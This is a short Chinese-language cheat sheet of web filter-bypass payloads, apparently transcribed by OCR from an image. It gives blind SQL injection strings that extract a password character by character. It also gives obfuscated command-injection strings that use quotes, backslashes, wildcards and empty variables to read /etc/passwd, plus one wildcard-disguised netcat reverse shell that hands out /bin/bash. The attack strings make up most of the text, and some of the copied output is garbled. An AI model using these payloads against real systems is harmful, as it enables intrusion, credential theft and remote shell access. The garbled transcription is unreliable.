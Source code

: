 
    ?key=user' OR substring((select 'password'),1,1) = 0x70 
    
    ?key=user' OR substr((select 'password'),1,1) = 0x70 
    
    ?key=user' OR mid((select 'password'),1,1) = 0x70 
    
    ?key=user' OR strcmp(left('password',1), 0X69) = 1 
    
    ?key=user' OR strcmp(left('password',1), 0×70) = 0
    
    ?key=user' OR strcmp(left('password',1), 0x71) = -1
    
        

* * *

##### 命令执行

**‘ （单引号）以及 \\ （反斜杠）绕过**

    $ echo orleven 
    orleven
    
    $ echo o'r'l'e'v'e'n''
    oreven 
    
    $ /b'i'n/c'a't/e't'c/p'a's's'w'd' 
    root: x: 0: 0: root: /root:/bin/bash 
    daemon: x: 1: 1: daemon: /usr/sbin: /usr/sbin/nologin 
    bin: x: 2: 2: bin:/bin: /usr/sbin/nologin 
    
    $ /b\i\n/c\at /et'c'/pa's'swd 
    root: x: 0: 0: root: /root: /bin/bash 
    daemon: x: 1: 1: daemon: /usr/sbin: /usr/sbin/nologin 
    bin: x: 2: 2: bin:/bin: /usr/sbin/nologin
    
        

* * *

**? 、 \* 、 \[、 \]、 ^、 - 通配符绕过**-
问号最好只匹配到唯一一条

    $ /b??/c?t /etc/??ss?d
    
    root: X: 0: 0: root: /root: /bin/bash 
    daemon: x: 1: 1: daemon: /usr/sbin: /usr/sbin/nologin 
    bin: X: 2: 2: bin:/bin: /usr/sbin/nologin 
    
    $ /???/n? -e /???/b??h 2130706433 1337 # /bin/nc -e /bin/bash 127.0.0.1 1337
    
        

* * *

**$ 不存在的符号**

    cat $u/etc$u/passwd$u 
    
    root: x: 0: 0: root: /root: /bin/bash 
    daemon: x: 1: 1: daemon: /usr/sbin: /usr/sbin/nologin 
    bin: x: 2: 2: bin: /bin: /usr/sbin/nologin 
    